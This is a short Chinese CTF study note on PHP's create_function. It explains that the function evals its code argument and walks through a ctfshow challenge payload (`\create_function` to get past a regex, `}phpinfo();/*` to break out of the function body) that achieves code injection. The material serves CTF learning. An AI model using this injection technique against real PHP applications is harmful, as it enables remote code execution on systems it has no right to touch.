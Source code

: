#### 命令盲注脚本

### create_function

#### create_function函数

[https://www.php.net/manual/zh/function.create-function](https://www.php.net/manual/zh/function.create-function)
:::info
**create_function**(string $args, string $code): string

- 下面两段代码的执行效果是一样的
- **会在$code处执行eval**
  :::

```php
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo $newfunc(2, M_E) . "\n";
?>
```

```php
<?php
$newfunc = function($a,$b) { return "ln($a) + ln($b) = " . log($a * $b); };
echo $newfunc(2, M_E) . "\n";
?>
```

#### 例题

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669518061296-8814df57-09d3-4c7c-a2c6-4da8543bd182.png#averageHue=%23fefefe&clientId=u20045c8e-efb5-4&from=paste&height=134&id=uaa980240&originHeight=295&originWidth=1078&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29172&status=done&style=none&taskId=uf1fe4413-160e-4bd5-9f22-9af84fba55a&title=&width=489.99998937953626)
:::info
$ctfshow('', $_GET['show']);<br />这种形式，想到用create_cunction
:::
payload是<br />`ctf=\create_function`，用命名空间绕过正则<br />`?show=}phpinfo();/*`

- **本质上还是可以把$code用eval执行**

这里的闭合的原因是：闭合大括号，注释后面的大括号，就可以命令执行了。

```php
<?php
\create_function('',$_GET['show']);//相当于
function /*匿名函数*/(){
	$_GET['show']
  //}phpinfo();/*
}
?>
```

# 